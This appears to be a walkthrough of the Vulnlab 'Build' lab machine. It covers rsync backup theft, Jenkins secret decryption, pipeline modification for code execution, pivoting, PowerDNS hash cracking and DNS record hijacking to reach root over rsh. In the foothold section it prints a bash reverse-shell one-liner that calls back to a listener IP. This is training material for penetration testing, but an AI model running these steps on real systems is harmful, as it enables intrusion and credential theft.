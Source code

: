 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Build/logo.png
date: 2024-05-24 09:45:47 +07:00
modified: 2024-05-24 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [ Build, VulnLab, rsync, rsh, docker, records , Writeup]
title: Build - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Build is an **easy** difficulty machine, Where I had to get credentials from a backup file, access the internal network and add new records in order to bypass the docker container. 

# Enumeration
The Nmap scan shows the following ports.
`nmap -p- --min-rate=10000 10.10.67.89`

`nmap -sC -sV -p21,23,80 10.10.67.89 -oA ./nmap/Build`

|Ports|Service
|22| ssh OpenSSH 8.9p1 Ubuntu
|53| Domain PowerDNS
|512| exec
|513| login
|514| shell Netkit rshd
|873| rsync
|3000| ppp?
|3306| mysql
|8081| blackice-icecap

![](https://photos.squarezero.dev/file/abir-images/Build/1.png)

Default creds on ssh didn't work. And MySQL and Rlogin weren't reachable.

![](https://photos.squarezero.dev/file/abir-images/Build/2.png)

Next, I visited Port 3000 and Found Gitea, a self-hosted git service.

![](https://photos.squarezero.dev/file/abir-images/Build/3.png)

After registering to the platform I checked the company repository and found dev repository by buildadm which seems like a Jenkins project.

![](https://photos.squarezero.dev/file/abir-images/Build/4.png)

Next, I check rsync to check the share in port 873 and Found a Jenkins backup file.

`rsync -av rsync://10.10.67.89/backups`
![](https://photos.squarezero.dev/file/abir-images/Build/5.png)

`rsync -av rsync://10.10.67.89/backups .`

![](https://photos.squarezero.dev/file/abir-images/Build/6.png)

# Foothold

In my research of Jenkins, I found out that to decrypt secrets I need master.key, hudson.util.Secret and the XML file containing the secrets. I can also use [Jenkin_offline_decryptor](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) to decrypt the secret.

[HackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

![](https://photos.squarezero.dev/file/abir-images/Build/7.png)

After decrypting the files found in the backup I got the password of buildadm.

![](https://photos.squarezero.dev/file/abir-images/Build/8.png)

Now after logging into the website I can edit the script and get reverse shell after waiting for a little bit.
`sh ''' bash -c 'bash -i >& /dev/tcp/10.8.2.110/1234' '''`

[Jenkins-rce-modifying-pipeline](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-pipeline)

![](https://photos.squarezero.dev/file/abir-images/Build/9.png)

![](https://photos.squarezero.dev/file/abir-images/Build/10.png)


# Docker Escape

Inside the home directory, I found rhosts file which contained some server names. I'm likely inside a docker container. 

![](https://photos.squarezero.dev/file/abir-images/Build/11.png)

Next, I used Chisel in order to connect to internal running services.

![](https://photos.squarezero.dev/file/abir-images/Build/12.png)
![](https://photos.squarezero.dev/file/abir-images/Build/13.png)
![](https://photos.squarezero.dev/file/abir-images/Build/14.png)
![](https://photos.squarezero.dev/file/abir-images/Build/15.png)

I also made sure to change proxychains config file

![](https://photos.squarezero.dev/file/abir-images/Build/16.png)

A lot of the core binary/functions are missing in the docker. I went back to the website and found the internal IP address inside the webhook.

![](https://photos.squarezero.dev/file/abir-images/Build/17.png)


Now I can scan the internal ports.

![](https://photos.squarezero.dev/file/abir-images/Build/18.png)

Default creds can get us access to MySql server.

![](https://photos.squarezero.dev/file/abir-images/Build/19.png)

After enumerating the databases I got the admin hash and more services that are running inside.

```bash
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+ 
| information_schema | 
| mysql              | 
| performance_schema | 
| powerdnsadmin      | 
| sys                | 
+--------------------+ 
5 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SHOW TABLES;
+-------------------------+
| Tables_in_powerdnsadmin |
+-------------------------+
| account                 |
| account_user            |
| alembic_version         |
| apikey                  |
| apikey_account          |
| comments                |
| cryptokeys              |
| domain                  |
| domain_apikey           |
| domain_setting          |
| domain_template         |
| domain_template_record  |
| domain_user             |
| domainmetadata          |
| domains                 |
| history                 |
| records                 |
| role                    |
| sessions                |
| setting                 |
| supermasters            |
| tsigkeys                |
| user                    |
+-------------------------+
23 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SELECT * FROM user;
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
| id | username | password                                                     | firstname | lastname | email          | otp_secret | role_id | confirmed |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
|  1 | admin    | <REDACTED> | admin     | admin    | admin@build.vl | NULL       |       1 |         0 |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
1 row in set (0.128 sec)    
MariaDB [powerdnsadmin]> SELECT * FROM records;
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
| id | domain_id | name                 | type | content                                                                                  | ttl  | prio | disabled | ordername | auth |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
|  8 |         1 | db.build.vl          | A    | 172.18.0.4                                                                               |   60 |    0 |        0 | NULL      |    1 |
|  9 |         1 | gitea.build.vl       | A    | 172.18.0.2                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 10 |         1 | intern.build.vl      | A    | 172.18.0.1                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 11 |         1 | jenkins.build.vl     | A    | 172.18.0.3                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 12 |         1 | pdns-worker.build.vl | A    | 172.18.0.5                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 13 |         1 | pdns.build.vl        | A    | 172.18.0.6                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 14 |         1 | build.vl             | SOA  | a.misconfigured.dns.server.invalid hostmaster.build.vl 2024050201 10800 3600 604800 3600 | 1500 |    0 |        0 | NULL      |    1 |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
7 rows in set (0.129 sec)
```

I started scanning the newly found IPs.

![](https://photos.squarezero.dev/file/abir-images/Build/20.png)
![](https://photos.squarezero.dev/file/abir-images/Build/21.png)

PowerDNS running on 172.18.0.6 and the login page was exposed as well.

![](https://photos.squarezero.dev/file/abir-images/Build/22.png)

To access the internal website in the browser I had to create a new socks5 config in ForxyProxy.

![](https://photos.squarezero.dev/file/abir-images/Build/23.png)

Now Im able to to access the website's login page.

![](https://photos.squarezero.dev/file/abir-images/Build/24.png)

I used Hashcat to crack the hash and got the admin password.

![](https://photos.squarezero.dev/file/abir-images/Build/25.png)

After logging in with the admin creds I presented with the zone management dashboard of [build.vl]().

![](https://photos.squarezero.dev/file/abir-images/Build/26.png)
![](https://photos.squarezero.dev/file/abir-images/Build/27.png)

I can redirect the internal admin.build.vl to my IP by adding a new record in the zone management. 
Now I will be able to access the main machine instead of the container.

![](https://photos.squarezero.dev/file/abir-images/Build/28.png)

Using Metasploit rlogin_login module I check to see if default cred combinations work and if root with no passwords can log in.

![](https://photos.squarezero.dev/file/abir-images/Build/29.png)

Now I can log in using rsh client.

Note: Kali removed rsh client, In order to install `sudo apt-get install rsh-redone-client`

![](https://photos.squarezero.dev/file/abir-images/Build/30.png)




